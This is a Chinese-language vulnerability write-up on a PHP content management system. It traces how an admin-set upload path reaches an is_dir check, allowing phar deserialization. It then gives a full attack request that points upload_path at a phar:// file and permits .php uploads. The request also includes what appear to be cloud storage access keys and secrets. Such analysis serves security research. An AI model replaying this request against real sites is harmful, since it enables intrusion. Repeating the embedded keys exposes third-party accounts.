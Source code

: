 可以看到还有这个`$this->uploadHandler->upload($file);`

大致看了一下，发现`$this->uploadHandler`是这样来的：

```php
    public function uploadHandler()
    {
        // 上传方式
        switch ($this->config['upload_type'])
        {
            case 'local':
                $type =  'Local';
                break;
            case 'alioss':
                $type =  'AliOss';
                break;
            case 'qiniuoss':
                $type =  'QinniuOss';
                break;
        }

        return Loader::factory($type, '\\app\common\model\upload\driver\\', $this->config);
    }
```

默认是local，当然这个配置也可以后台更改。因此跟进一下`app\common\model\upload\driver\local`的`upload`方法，位于`application/common/model/upload/driver/Local.php`：

```php
    public function upload($file)
    {
        $uploadPath = $this->config['upload_path'];
        if (!is_dir($uploadPath)) {
           mkdir(iconv("UTF-8", "GBK", $uploadPath), 0777, true);
        }
```

直接一个`is_dir`，可以phar。至于`$uploadPath`则是从数据库中直接取出来的，这个可以在后台控制，所以可以成功phar。



攻击：

先后台修改一下配置，使得`$this->config['upload_path'];`是phar：

```php
POST /admin/site/config.html
    
upload_type=local&upload_image_ext=jpg%2Cpng%2Cgif%2Cphp&upload_image_size=2048&upload_video_ext=rm%2Crmvb%2Cwmv%2C3gp%2Cmp4%2Cmov%2Cavi%2Cflv&upload_video_size=10240&upload_attach_ext=doc%2Cxls%2Crar%2Czip%2C7z&upload_attach_size=10240&upload_path=phar://./upload/20210606/1c57fd5e8abbd8ce9e6715c28227a95f.png&alioss_key=4H5C4jQbxBAsbwye1&alioss_secret=U5Be9VLZCpy8oCo7sTQSCq806swqGV&alioss_endpoint=oss-cn-shenzhen.aliyuncs.com&alioss_bucket=kitesky&qiniu_ak=9VWzf1jiS3gEALBi_XtwELHaHzHJIeCXE5W4KtJt&qiniu_sk=TGNd21xwf-yHGWn3FwN37fkRWpOzzMhXC5jEfgr8&qiniu_bucket=kitesky&qiniu_domain=http%3A%2F%2Fonxr8mt8y.bkt.clouddn.com
```
